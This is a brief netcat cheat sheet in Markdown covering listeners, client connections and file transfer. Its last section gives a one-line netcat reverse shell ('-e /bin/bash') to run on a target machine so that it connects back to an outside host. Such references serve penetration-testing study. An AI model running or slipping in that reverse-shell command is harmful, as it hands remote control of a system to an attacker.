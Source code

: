 # Netcat
Netcat is a tool that reads and writes data across network connections, using TCP or UDP protocol. More information [Link](https://blog.ikuamike.io/posts/2021/netcat/)

## Server Mode
Use netcat to listen for connections. What this does is open a port (either tcp or udp) on the system. By default netcat listens on tcp.

> Basic Listener
```bash
$ nc -lvnp PORT
```
[-l]: Listen incoming connection
[-v]: Verbose output
[-n]: Do not do DNS
[-p]: Specifies source port nc should use

To listen on UDP must use `-u`.

## Client Mode
Use netcat to connect to an open port on a system. This can be beneficial for manually checking service banners or just checking if the port is open.

> Basic Connection
```bash
$ nc -vn @IP PORT
```

For a UDP connection we only add the `-u` option.

## File Transfer
Transfer files over the connection from one system to another without distortion.
Don’t really care about which is the server and which is the client because the transfer can go either direction but we need to run the listener first.

> Listener
```bash
nc -lp PORT > /path/to/outfile 
```

> Client
```bash
$ nc -w3 @Listener_IP PORT < /path/to/infile
```
[-w]: Define the timeout in seconds.


## 

Send a Reverse Shell

From target machine:

```bash
$ nc [HOST_IP] [PORT] -e /bin/bash
```

# 

Tags

[#cheat-sheet](app://obsidian.md/index.html#cheat-sheet)